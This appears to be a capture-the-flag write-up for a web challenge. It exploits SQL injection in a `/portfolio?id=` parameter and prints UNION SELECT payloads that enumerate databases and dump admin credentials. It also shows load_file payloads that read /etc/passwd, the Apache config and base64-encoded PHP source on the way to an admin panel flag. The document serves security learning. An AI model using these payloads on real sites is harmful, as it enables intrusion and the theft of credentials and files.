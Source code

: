 - inspecting the source for the webpage reveals comments that include an endpoint that takes an `id` parameter, `/portfolio?id=`
- navigating to the endpoint and testing it for SQL injection reveals it's a SELECT query with an injection vulnerability at the end
- ending up enumerating the databases and exfiltrating data that wasn't needed
```
# list databases
1 union select 1,schema_name,1 from information_schema.schemata

# list table names from specific DB
1 union select 1,table_name,1 from information_schema.tables where table_schema = 'freelancer'

# list columns in from specific table
1 union select 1,column_name,1 from information_schema.columns where table_name = 'safeadmin'

# retrieve specific columns from specific table
1 union select 1,username,password from safeadmin
```
- intended method was to use `load_file` for LFI
```
# retrieve known file
1 union select 1,2,load_file('/etc/passwd')
```
- response headers reveal the server is using Apache, can read the config file at `/etc/apache2/apache2.conf`
- the Apache config reveals the root web directory is located at `/var/www/html`
- easy to read JavaScript and CSS files from here, but PHP files are unable to be read without first base64 encoding
```
# retrieve known file and base64 encode
1 union select 1,2,to_base64(load_file('/var/www/html/portfolio.php'))
```
- retrieving the source code for `portfolio.php` reveals the existence of `/var/www/html/administrat/include/config.php`
- reading the config reveals the `db_user` password that's not used
- navigating to `http://<host>:<port>/administrat` shows a login page
- we can confirm the `safeadm` user exists, but am not able to crack their password in order to login (both from the previously mentioned database enumeration)
- inspecting the HTML source for the `/administrat` homepage shows that it makes a POST request to `/administrat/index.php`
- pulling this file and reading it shows that it redirects to `/administrat/panel.php` after logging in
- the flag is embedded in the admin panel and can be read by retrieving the panel file

#### Tags: SQL injection (SELECT statement), LFI
